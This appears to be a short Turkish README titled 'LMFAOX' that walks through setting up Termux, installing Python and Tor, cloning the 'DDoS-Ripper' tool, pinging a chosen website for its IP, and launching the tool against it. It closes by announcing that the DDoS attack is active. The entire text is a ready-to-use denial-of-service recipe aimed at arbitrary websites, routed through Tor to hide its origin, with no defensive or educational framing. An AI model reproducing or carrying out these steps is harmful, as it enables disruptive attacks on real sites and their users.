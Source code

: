 # LMFAOX

1- Termux-change-repo

2- default olanını seçin

3- pkg update && pkg upgrade

4- çıkan herşeye N diyoruz yani default

5- pkg install python

6- pkg install python3 -y

7- pkg install git -y

8- git clone GitHub - palahsu/DDoS-Ripper: DDos Ripper a Distributable Denied-of-Service (DDOS) attack server that cuts off targets or surrounding infrastructure in a flood of Internet traffic

9- cd DDoS-Ripper

10- python3 DRipper.py -h

11- yeni bir komut alanı açıyoruz

12- yeni açtığımız alana cd yazıyoruz

13- yeni açtığımız alana ping website ismi/website domaini

14- çıkan ip adresini kopyalıyoruz

15- yeni bir tane daha komut alanı açıyoruz

16- bu 3. Açtığımız alana pkg install tor yazıyoruz

17- 3. Açtığımız alana son olarak tor yazıyoruz

18- şimdi ilk açtığımız alana geri dönüyoruz

19- python3 DRipper.py -s (ip) -t 135

20- DDoS attack aktif hale getirildi :)
